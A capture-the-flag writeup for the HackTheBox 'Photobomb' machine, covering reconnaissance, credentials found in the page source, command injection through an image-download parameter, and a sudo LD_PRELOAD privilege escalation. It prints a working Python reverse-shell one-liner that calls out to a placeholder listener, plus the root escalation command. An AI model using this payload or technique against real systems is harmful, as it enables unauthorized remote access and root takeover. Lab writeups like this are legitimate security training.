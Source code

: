 # photobomb-htb-writeup
A free lab from **HackTheBox**, can be found in here if still available: https://app.hackthebox.com/machines/Photobomb

![Photobomb](https://user-images.githubusercontent.com/31168741/201704551-e765c5a7-c32e-43a4-bebc-23ff5f1825c7.png)

## User Own:
Setting up VPN to access lab by the following command:

`sudo openvpn [your.ovpn file]`

![1](https://user-images.githubusercontent.com/31168741/201707116-98e6a13c-2509-4771-9f91-15d231bf138e.PNG)

Activate machine.

![2](https://user-images.githubusercontent.com/31168741/201707154-ec4302dc-20a5-476e-8208-4502d0d672aa.PNG)

Check if it's connected.

![3](https://user-images.githubusercontent.com/31168741/201707188-ddf40cfa-5c10-4bb8-a89d-66c3c97f88e4.PNG)

Run nmap scan to find more information regarding the machine. `sudo nmap -sS -A -p- [machine-ip] -T4` 

![4](https://user-images.githubusercontent.com/31168741/201707217-7ce7997e-73c7-4c6d-956d-3f94bfa7d552.PNG)

Following the scan report above, let's check the ip in browser since it shows has the '80' port open.

![5](https://user-images.githubusercontent.com/31168741/201709583-ff4725a7-670d-48db-8f89-579762570e65.PNG)

Oops! If you ever face issues like this, just do the following:

`sudo nano /etc/hosts`

Type:

>[machine-ip] [domain-address]

![6](https://user-images.githubusercontent.com/31168741/201709609-1540dace-f0e3-40f7-ac46-b5d5c287da7c.PNG)

It worked!

![7](https://user-images.githubusercontent.com/31168741/203564356-ed8d8a73-8c2e-467b-8e79-df37fcdbf1b9.PNG)

Look here and there to find sufficient clues around. I'm running some more tools such as:

`dirsearch -u http://[machine-ip]`<br>

![11](https://user-images.githubusercontent.com/31168741/203568024-106123d0-9112-4ba7-a00c-df39b63725c2.PNG)

From the above found directories:

![10](https://user-images.githubusercontent.com/31168741/203569553-e7f4929d-10ea-45ac-a2f3-fe908b3ea09a.PNG)

Let's look around for clues as to where we can find the credentials. Viewing page sources & inspecting might act benefitting.

![8](https://user-images.githubusercontent.com/31168741/203569838-840fdb47-9844-488d-ad27-52ea89d1ecb8.PNG)

![12](https://user-images.githubusercontent.com/31168741/203569955-c4b4ff0a-c559-4ac0-8cea-45ba2d020224.PNG)

![13](https://user-images.githubusercontent.com/31168741/203570043-aa69c1e7-9556-4aa9-99b0-29c5bd9fc72d.PNG)

Let's zoom it in.

![13](https://user-images.githubusercontent.com/31168741/203590631-6c4124c3-7411-4852-8751-cea1e649bbde.PNG)

Found user and pass. Let's try logging in!

![14](https://user-images.githubusercontent.com/31168741/203570096-e413c8e3-98ee-45bf-bfef-0ea898d786de.PNG)

It worked. What we see is a page with few pictures to download. Let's try incepting the request using burp and see if anything vulnerable found.

![15](https://user-images.githubusercontent.com/31168741/203583327-0ad20b7d-949b-42a4-bc93-349544843706.PNG)
![16](https://user-images.githubusercontent.com/31168741/203583637-609ce260-e0ec-451e-a2f7-9daa83257543.PNG)
![17](https://user-images.githubusercontent.com/31168741/203583725-4b26b2a4-b0d3-45c8-a372-97394cf4a093.PNG)

Tampering with the parameters for the POST request and find that the filetype parameter might be injectable. So, we prepare a python reverse shell and place in filetype section and send the request.

![18](https://user-images.githubusercontent.com/31168741/203584234-6073bc41-3f86-41a7-a2c3-9fe9cd38dbf4.PNG)

The reverse shell: `python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("[LHOST]",[LPORT]));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")'`

![29](https://user-images.githubusercontent.com/31168741/203584370-2ec4ea71-7176-41c0-bbb0-7c373f8f4df9.PNG)
![19](https://user-images.githubusercontent.com/31168741/203584398-ba1628ea-8b44-4fa6-95f1-58abb8b8d6e7.PNG)

We're in the target machine. Looking a little here and there helped me with the user flag!

![20](https://user-images.githubusercontent.com/31168741/203584616-86f9d8fe-7590-4c27-938b-10b1f34d6690.PNG)

Second, to own the system, let's check the sudo rights: `sudo -l`.

![21](https://user-images.githubusercontent.com/31168741/203584890-1a8e1b17-0468-4ece-9b32-3eaf5c5b82c0.PNG)

LD_PRELOAD can be invoked with sudo, let’s create a simple PE shell to exploit this.

![22](https://user-images.githubusercontent.com/31168741/203585120-960af202-007e-419a-ab08-88f12e474960.PNG)
![25](https://user-images.githubusercontent.com/31168741/203585279-40c47a8f-d436-4fec-bc14-03ff8b146e7e.PNG)

Compile the file.

![27](https://user-images.githubusercontent.com/31168741/203585320-d15b7a67-3a79-47a3-9e1f-2be25eff6950.PNG)

Now, upload it to the target machine through python server.

![23](https://user-images.githubusercontent.com/31168741/203585445-42a08f82-64b7-485f-bb6a-6442790c1026.PNG)
![24](https://user-images.githubusercontent.com/31168741/203585498-5daf23df-1f33-458d-a738-c13ca080131c.PNG)

Now the exploit is in the target machine. Trigger the shell to enter as root: `sudo LD_PRELOAD=/home/wizard/shell.so /opt/cleanup.sh`

![28](https://user-images.githubusercontent.com/31168741/203585818-397e1d19-ce2f-4080-88b8-76813f5d7e00.PNG)

Operating as root! We found root flag!
